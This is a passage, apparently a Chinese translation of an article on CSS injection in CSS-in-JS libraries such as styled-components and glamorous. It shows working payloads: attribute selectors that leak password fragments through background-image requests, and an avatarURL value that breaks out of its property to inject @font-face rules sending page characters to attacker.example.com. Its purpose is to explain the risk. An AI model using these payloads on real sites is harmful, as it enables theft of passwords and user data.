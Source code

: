 ```
// - 添加更多的选择器来获取更多信息
// - 你也可以使用不同类型的属性选择器
// - 把接受的值与某个字典比较
//     从而对你的数据作出相对正确的猜测

var color = `#8233ff;
html:not(&) {
  input[value*="pa"] { background: url(https://localhost/?pa) }
  input[value*="as"] { background: url(https://localhost/?as) }
  input[value*="ss"] { background: url(https://localhost/?ss) }
  input[value*="sw"] { background: url(https://localhost/?sw) }
  input[value*="wo"] { background: url(https://localhost/?wo) }
  input[value*="or"] { background: url(https://localhost/?or) }
  input[value*="rd"] { background: url(https://localhost/?rd) }
}`
```

你可以在 [Reading Data via CSS Injection](https://www.curesec.com/blog/article/blog/Reading-Data-via-CSS-Injection-180.html) 阅读更多像这样的攻击。

通过使用 password 输入框上的属性选择器根据当前输入改变背景图时，这种攻击也会起作用。以下是在我输入 ‘密码’ 之后 Chrome 开发工具的网络选项卡的样子：

![](https://reactarmory.com/cad5ea782b425e1e9ac072b3c8aa52d9.png)

虽然这种攻击不能窃取所有密码，但它仍会窃取相当多的密码。一些被盗的密码足以毁掉你一天的工作。

这是在 codesandbox 中使用 styled-components 进行的 [概念验证](https://codesandbox.io/s/llnzkwk0mz)。

### 提取数据的 avatar

假设你的老板想要你的应用程序中的每个用户的名字旁有 avatar。但你的老板有点吝啬，不想为 avatar 支付带宽费用。所以他希望你提供连接到外部 URL 的方案。或者其他方案。

当然，你的 `Identity` 组件是 glamorous 构建的样式组件。它接受整个用户对象作为 prop，该对象包含名字，twitter，以及其他一些东西。后端开发人员为对象添加 `avatarURL`，然后设计师使用 `background-image` 标签标记图像。

而现在，任何人浏览 avatar 都会从页面上具体元素获得数据。以下就是 avatarURL 做的：

这看起来像是过去流行的的老式 SQL 注入，但是使用了CSS。我们真的生活在未来啊。

```
const avatarURL = `blue;}

@font-face{
  font-family:poc;
  src: url(https://attacker.example.com/?D);
  unicode-range:U+0044;
}
@font-face{
  font-family:poc;
  src: url(https://attacker.example.com/?R);
  unicode-range:U+0052;
}
@font-face{
  font-family:poc;
  src: url(https://attacker.example.com/?O);
  unicode-range:U+004F;
}
@font-face{
  font-family:poc;
  src: url(https://attacker.example.com/?P);
  unicode-range:U+0050;
}

.logged-in {
  font-family: poc;
}

```